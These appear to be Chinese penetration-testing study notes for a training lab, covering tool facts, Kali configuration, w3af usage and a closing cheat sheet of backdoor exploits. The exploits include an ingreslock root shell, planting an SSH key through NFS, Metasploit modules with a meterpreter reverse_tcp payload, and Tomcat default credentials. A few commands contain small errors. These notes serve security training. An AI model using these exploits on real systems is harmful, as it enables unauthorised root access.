 #Question
Apache 默认端口号80   
XProbe2通过 模糊签名猜测，可能性猜测 同时多匹配和签名数据库来识别操作系统   
W3af框架有漏洞挖掘（discovery）、漏洞分析（audit）和漏洞攻击（attack）三种功能   
burpsuite默认参数127.0.0.1 8080   
burp spider主要是抓取目标网站  (抓包send to spider)   
burp Intruder主要功能是 自动实施各种定制攻击
Sqlmap的注入技术基本全部覆盖
在 /etc/passwd中，/bin/bash代表账户可登录
nmap中 -sU扫UDP -sS SYN扫描 -sT tcp扫描，取首字母，以此类推
mysql默认端口 3306


# 配置网卡信息 #
```
配置文件 nano /etc/network/interfaces

iface eth0 inet static           //配置eth0使用默认的静态地址
address 172.30.1.160        //设置eth0的IP地址
netmask 255.255.0.0        //配置eth0的子网掩码
```
采用静态IP地址的方式，还需要手动设置DNS配置文件，在终端中输入命令
```
nano /etc/resolv.conf
```
输入DNS地址，上述都设置完毕后，重启一下系统
# SSH and Apache #
## 配置SSH ##
```
nano /etc/ssh/ssd_config
```
去掉注释
```
#passwordAuthentication yes
```
开启服务
```
service ssh start
/etc/init.d/ssh start
```
## 配置Apache ##
配置文件
```
nano /etc/apache2/ports.conf 修改默认端口号
```
开启服务
```
service apache2 start
/etc/init.d/apache2 start
```
# 渗透测试过程 #
- 第一步：目标范围划定
- 第二步：信息搜集
- 第三步：目标发现
- 第四歩：目标枚举
- 第五步：漏洞映射
- 第六步：社会工程学
- 第七步：漏洞利用
- 第八步：提权
- 第九步：持续控制目标
- 第十步：文档和报告

# W3af_consle #
|方式|作用|
## 基本操作 ##
|-|-|
|view |查看参数|
|set| 改变参数值|
|back |返回上一级|
|help |查看帮助|
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089536147240401.jpg)
## 探测网站目录结构 ##
2.1	在终端中输入命令“w3af_console”，启动w3af。如图7所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089540666961901.png)

2.2	启动插件。如图8所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089542296669401.png)


2.3	启用find_backdoors、phpinfo和web_spider这三个插件。如图9所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089545129434501.png)


2.4	列出所有用于漏洞的插件。如图10所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089546880790701.png)


2.5	启用blind_sqli、file_upload、os_commanding、sqli和xss这五个插件。如图11所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089552047428201.png)

2.6	设置输出插件。如图12所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089553599742601.png)


2.7	设置输出信息的存储文件。如图13所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089554994280701.jpg)

2.8	查看存储设置参数。如图14所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089556694288901.png)

2.9	设置目标地址参数。如图15所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089557765750301.png)

2.10	开始攻击。如图16所示   
![](http://tjxxaq.shiyanbar.com/UploadImage/2016/7/26/154089560841997901.png)
# 后门利用 #
## Ingreslock后门 ##
**Port:**  1524
```
telnet ip 1524   直接获取root权限
```
## Linux NFS共享目录配置漏洞 ##
Step1：查看目标主机上NFS服务是否开启：   
```
rpcinfo -p 192.168.1.3   
```   
Step2:显示指定的远程共享目录列表：   
```
showmount -e 192.168.1.3
```   
Step3:生成rsa公钥：   
```
ssh-keygen
```   
Step4:
```
mkdir /tmp/tool 建立tool目录   
mount -t nfs 192.168.1.3:/tmp/tool,把192.168.1.3根目录挂载到/tmp/tool目录下   
```    
Step5：把生成的公钥追加到靶机的authorized_keys下，实现ssh免密码登录：
```
cat  /root/.ssh/id_rsa.pub>>/tmp/tool/root/.ssh/authorized_keys
```
Step6:连接
```
ssh root@ip
```
## Metasploit溢出vsftp特权提升漏洞 ##
**Port:**  21   
**Payload:** `use exploit/unix/ftp/vsftpd_234_backdoor`
## Metasploit溢出UnrealIRCd后门漏洞 ##
**Port:** 6667
## Tomcat管理台默认口令漏洞 ##
**Port:** 8180    
**Service:** ApacheTomcat/CoyoteJSP engine1.1   
**Default:** tomcat tomcat
## sysmlink 默认配置目录遍历漏洞 ##
**Port:** 445 139   
**Service:** Samba   
**Payload:** auxiliary/admin/smb/samba_symlink_traversal
```
set SMBSHARE tmp SAM可写文件
smbclient //ip/tmp 
cd rootfs 进入root目录
cat /*
```
## Samba提权漏洞 ##
**Port:** 445 139
```
use exploit/multi/samba/usermap_script
```
## Metasploit利用php_cgi漏洞 ##
**Dir:** cgi-bin   
**Exploit:** exploit/multi/php_cgi_arg_injection   
**Payload:**   
```
set PAYLOAD /php/meterpreter/reverse_tcp
```
## Distcc后门漏洞 ##
**Port:** 3632   
**Exploit:** use exploit/unix/misc/distcc_exec   
